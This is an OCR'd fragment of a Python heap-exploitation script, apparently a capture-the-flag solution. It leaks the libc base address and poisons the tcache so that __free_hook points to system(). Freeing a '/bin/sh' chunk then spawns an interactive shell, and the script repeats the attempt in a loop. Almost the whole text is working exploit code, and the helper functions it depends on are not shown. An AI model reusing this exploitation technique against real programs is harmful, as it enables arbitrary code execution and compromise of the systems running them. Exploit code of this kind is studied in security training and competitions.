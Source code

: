 ```python

    print('libc: ', hex(libc_base))

    free(6)
    cmd(2)
    sla("\n", str(6))
    sa("\n", p64(arena_addr)+p64(arena_addr))
    sleep(1)

    print("free_hook: ", hex(free_hook))
    print("system: ", hex(system_addr))

    add(9, 0x30, "/bin/sh/\x00\n")
    free(9)
    edit(9, p64(free_hook))
    add(9, 0xa0, "/bin/sh\x00")
    add(3, 0xa0, p64(system_addr))
    dd()
    free(9)
    # add(2, 0x30, p64(system_addr))
    p.interactive()

for i in range(40):
    print(i)
    pwn()

```

